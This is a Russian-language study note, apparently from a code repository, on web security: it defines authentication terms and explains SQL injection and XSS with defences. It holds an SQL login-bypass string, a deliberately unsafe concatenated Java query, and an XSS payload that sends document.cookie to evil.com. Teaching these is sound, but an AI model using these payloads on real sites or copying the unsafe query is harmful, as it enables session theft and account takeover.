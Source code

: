 # Безопасность, уязвимости и методы защиты приложений

**Идентификация** — процесс распознавания пользователя по его идентификатору.

**Аутентификация** — процедура проверки подлинности, доказательство что пользователь именно тот, за кого себя выдает.

**Авторизация** — предоставление определённых прав.

## SQL Injections
Внедрение специального кода в приложение при недостаточной/отсутствующей проверке данных от пользователя

**ПРИМЕР**:
+ Общими словами: при отправке данных через инпуты или в виде параметров в урл,
SQL инъекция может внести какие-то неправомерные изменения данных или структуры данных
+ Технически (отключаем проверку пароля):
    + SQL-инъекция в запросе ('%20' - это пробел, '--' - это начало комментария чтобы отбросить пароль):
    ```
    site.com?username=admin'%20--%20&pass='1'
    ```
    + Небезопасная обработка параметров на сервере:
    ```
    String sql = "select * from user where username = '" + username + "' and pass= '" + pass + "'";
    ```

**ЗАЩИТА**:
+ Фильтрация параметров, работающих с базой данных
    + Проверка валидности числовых параметров
    + Проверка валидности строковых параметров
    + Экранирование символов
    + В Java SE при передаче параметров в SQL-запрос вместо конкатенации запроса использовать PreparedStatement - 
    он автоматически экранирует ковычки
    + В Hibernate использовать named params вместо конкатенации (для HQL или native query)

        
## XSS (Cross Site Scripting)
Межсайтовый скриптинг - ошибка валидации пользовательских
данных, которая позволяет передать JavaScript код на исполнение в
браузер пользователя.

Атаки такого рода часто также называют ```HTML-инъекциями```,
 ведь механизм их внедрения очень схож с SQL-инъекциями,
но в отличие от последних, внедряемый код исполняется в браузере

**ПРИМЕР**:
+ Общими словами: например, размещаем комментарий со скриптом, отправляющим куки или ID сессии пользователя на сторонний сервер злоумышленника.
+ Технически: внедряем в БД приложения скрипт, который при появлении на UI будет совершать вредоносные действия 
(например отправка куков жертвы на сторонний сайт):
    + Через известные параметры в урл 
    ```
    http://vulnsite.com/search.php?q=<script>XSS();</script>
    ```
    + Через инпуты, например, созданием коммента с вредоносным скриптом, который будет срабатывать при открытии страницы пользователями
    ```javascript
    <script>document.location="https://www.evil.com?foo="+document.cookie</script>
    ```
    ```javascript
    <img src="https://ru.fishki.net/picsw/102012/05/post/epic/tn.jpg" onload="alert('XSS')">